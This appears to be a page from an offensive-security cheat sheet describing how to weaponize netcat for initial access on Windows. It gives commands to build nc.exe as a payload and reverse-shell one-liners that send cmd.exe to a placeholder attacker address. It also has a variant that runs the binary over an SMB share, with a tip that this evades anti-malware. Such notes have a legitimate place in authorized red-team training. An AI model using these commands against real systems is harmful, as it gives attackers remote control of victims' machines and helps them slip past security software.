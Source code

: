 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - netcat
  - windows
---
```

# Netcat

## 01 - Compile

Clone the repository and compile the payload.

```
$ git clone https://github.com/int0x33/nc.exe.git && cd nc.exe/ && \
rm *.exe && sed -i -e s/\#CC=x86_64-pc-mingw32-gcc// \
-e s/\CC=i686-pc-mingw32-gcc/CC=x86_64-w64-mingw32-gcc/ Makefile && \
make 2>/dev/null
```

It's ready to be deployed as an payload.

```
$ file nc.exe 
nc.exe: PE32+ executable (console) x86-64 (stripped to external PDB), for MS Windows
```

## 02 - Execute Payload

```
C:\> nc.exe -v <attacker_IP> <attacker_PORT> -e cmd.exe
```

Dropper payloads over UNC path.

> [!TIP]
> Try to execute the payload over SMB to bypass Anti-Malware.

```
C:\> \\<attacker_IP>\<share_name>\nc.exe -v <attacker_IP> <attacker_PORT> -e cmd.exe
```

---
## References

### Source Repositories

- [int0x33: `nc.exe`](https://github.com/int0x33/nc.exe)